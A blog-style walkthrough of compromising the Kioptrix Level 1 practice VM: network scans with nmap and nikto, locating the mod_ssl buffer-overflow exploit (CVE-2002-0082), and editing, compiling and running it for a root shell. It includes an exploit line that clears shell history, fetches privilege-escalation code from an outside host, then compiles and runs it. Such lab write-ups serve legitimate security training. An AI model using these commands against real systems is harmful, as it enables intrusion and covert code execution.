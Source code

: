 ```yaml
---
layout: post
title: Vulnerable VMs - Kioptrix Pt. 1
published: true
category: exploitation
---
```


The Kioptrix series of vulnerable VMs closely resemble the material presented in the PWK course, and the OCSP exam. Kioptrix Level 1 starts out relatively easy, so let’s get started:

Once we have the VM loaded in bridged adapter mode (directly connected to physical network), let’s quickly scan our subnet for the machine:

```bash
nmap -sS -T5 192.168.1.0/24
```
 

Our output shows that our target is at `192.168.1.104`. Let’s perform a direct scan that fingerprints open ports/services:

```bash
nmap -sV -sT -A -T4 -sC 192.168.1.104
```
 

Which tells us that an Apache web server is running on the target:

```
443/tcp  open  ssl/https  Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-01-28T00:10:51+00:00; -37d09h58m43s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
...snip..
```

Notably, this server is running a very outdated version of Apache and OpenSSL. We think the version of OpenSSL has a working exploit, however, let’s confirm our suspicion with a quick `nikto` scan:

```bash
nikto -h 192.168.1.104:80
```
 

Which returns an interesting line:
```
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
```


`nikto` confirms our suspicion that `mod_ssl` has an RCE vulnerability in versions 2.8.7 and lower. Let’s find the exploit:

```bash
searchsploit mod_ssl 2.8.7
```
 

`searchsploit` is telling us that the exploit is at `/usr/share/exploitdb/platforms/unix/remote/21671.c`. However, this version was a bit outdated, so I downloaded my exploit straight from exploit-db:

```bash
wget https://www.exploit-db.com/download/764
```
 

Now, we have to make a few changes to the source code since this exploit is a bit outdated. First, there is a hard-coded line to `wget` some resources from packetstormsecurity, however, their download domain has changed since then. Find the following line:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```


and replace it with:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```
 

Now we need to import the RC4/MD5 OpenSSL libraries for compatibility with this legacy SSL version. Add the following include statements:

```c
#include openssl/rc4.h
```
```c
#include openssl/md5.h
```
 

And compile the exploit per the instructions in the code comments:

```bash
gcc -o pwn 764.c -lcrypto
```
 

Run the exploit with the following arguments (Note, the 0x6b argument specifies the version of apache/server platform, detailed in exploit help):

```bash
./pwn 0x6b 192.168.1.104
```
 

And you get a root shell! Easy peasy.

